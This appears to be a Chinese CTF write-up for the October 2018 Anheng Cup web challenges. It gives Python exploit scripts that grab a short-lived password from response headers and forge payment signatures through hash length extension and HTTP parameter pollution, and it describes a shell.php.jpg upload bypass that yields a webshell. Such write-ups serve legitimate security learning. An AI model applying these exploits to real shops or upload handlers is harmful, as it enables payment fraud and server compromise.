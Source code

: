 ```yaml
---
layout: post
title: 2018年安恒杯10月月赛writeup
author: "枫丹白露"
header-style: text
lang: zh
tags:
  - 安恒杯
  - ctf
  - web
  - writeup
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web
复现的时候环境已经关闭了，所以没有截图了

###手速要快（100分）:
打开网站，是一个登陆页面，抓包在返回包的包头里发现password字段，很快就会刷新，所以要写个脚本，读取password字段后立刻提交，脚本如下，经过测试需要带上cookie才能成功。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import re
import time

url1 = "http://101.71.29.5:10023/index.php"
response = requests.get(url=url1)
head = response.headers
# 将头信息转为可以进行json序列化的
x = requests.structures.CaseInsensitiveDict(head)
js = dict(x)
# print js # 此处打印出来的是一个json字符串
password=js.get("password")
cookie = js.get("Set-Cookie")
cookie=cookie[10:42]
url2 = "http://101.71.29.5:10023/login.php"
data = "password=123&submit_password=login"
data = {
        "password":password,
        "submit_password":""
    }
cookie = {'PHPSESSID': "5f3d0b93c3536da16830445227d1bad7"}
re2 = requests.post(url=url2,data=data,cookies=cookie)
print re2.text
print re2.cookies
```
登陆成功后跳转到一个上传页面，需要上传php木马，经过测试上传检测使用的是黑名单过滤，但是存在解析漏洞，上传shell.php.jpg即可getshell，flag在上级目录。

### Shop（300分）

`8月份人行比赛的原题`
本题考查了http参数污染和hash长度扩展攻击
HTTP 参数污染指的是在 HTTP 请求中 发送多个相同的参数，可能会导致一些非预期的结果。比如在 Querystring 中 发送两个 test 参数，Apache + PHP 会取最后一个:

```
http://127.0.0.1?test=123&test=456

$_GET['test']=456
```

而哈希长度扩展攻击适用于在消息与密钥的长度已知的情形下，所有采取了 H(密钥 ∥ 消息) 此类构造的散列函数。该攻击对 MD5 和 SHA-1 等基于 Merkle–Damgård 构造的算法有效。简单地说，就是当知道 MD5(secret) 时， 在不知道 secret 的情况下，可以很轻易的推算出 MD5(secret∥padding∥m’)
也就是说，我们需要结合上面两种手段，在原有的 Request Body 后追加 一些内容(padding 和用于覆盖的参数)，然后计算出新的 signature，完成支付。
我的exp如下，key长度可以从源代码里找到，或者直接爆破。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from hashpumpy import hashpump
import requests
import re
sign = 'c5cc881eef97f4276b2c86bc0e42490e'
data ='order_id=72&buyer_id=19&good_id=38&buyer_point=300&good_price=888&order_create_time=1541586327.760354'
cookie = {'sessionid': 'aybgeojx2vtvekwt8bg8vqxjqde18na0'}
# sign = '58e9846626f7c1b8e80ac2da8b456e9d'
# data = 'order_id=91&buyer_id=22&good_id=34&buyer_point=200&good_price=50&order_create_time=1528269449.183292'
# cookie = {'sessionid': '6j31jogubedhgfo3pq8vlwploe5zzwmj'}
check_url = 'http://101.71.29.5:10014/payment/check'
#for i secret_key_length range(0,2000):
secret_key_length = 13
for i in range(1, 30):
    res = hashpump(sign, data, '&buyer_id={}'.format(i), secret_key_length)
    print(res)
    req = requests.post('{}?signature={}'.format(check_url, res[0]),
    data=res[1], cookies=cookie, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    print(re.findall('\<h4\>.*?\<\/h4\>', req.text))
```


## easy audit和CoolCms没做出来，请参考下面微笑大神的博客，还包括其他reverser和misc的一些题。

[https://www.smi1e.top](https://www.smi1e.top/%E5%AE%89%E6%81%92%E6%9D%AF%E6%9C%88%E8%B5%9Bwrite-up/)



[1]: https://www.linkedbyx.com/home
[2]: https://www.smi1e.top